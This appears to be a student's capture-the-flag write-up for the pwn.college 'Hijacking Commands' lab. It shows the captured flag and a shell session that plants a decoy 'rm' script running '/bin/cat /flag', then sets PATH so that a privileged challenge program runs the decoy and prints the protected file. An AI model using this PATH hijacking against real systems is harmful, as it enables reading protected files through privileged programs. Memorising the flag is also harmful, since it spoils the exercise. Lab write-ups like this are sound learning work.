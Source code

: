 # Challenge Name
Hijacking Commands

## My solve
**Flag:** `pwn.college{MZ_EfSPmn1slQ-642Pg3ASsl5JR.QX3cjM1wyM5EzNzEzW}`


```bash
hacker@path~hijacking-commands:~$ mkdir ~/hijack
hacker@path~hijacking-commands:~$ cat > ~/hijack/rm << "EOF"
> #!/bin/bash
> /bin/cat /flag
> EOF
hacker@path~hijacking-commands:~$ chmod a+x ~/hijack/rm
hacker@path~hijacking-commands:~$ PATH=~/hijack
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{MZ_EfSPmn1slQ-642Pg3ASsl5JR.QX3cjM1wyM5EzNzEzW}

```

## Incorrect tangents I went on
None

## What I learned
I learnt to create a decoy function for actual functions.

## References 
None
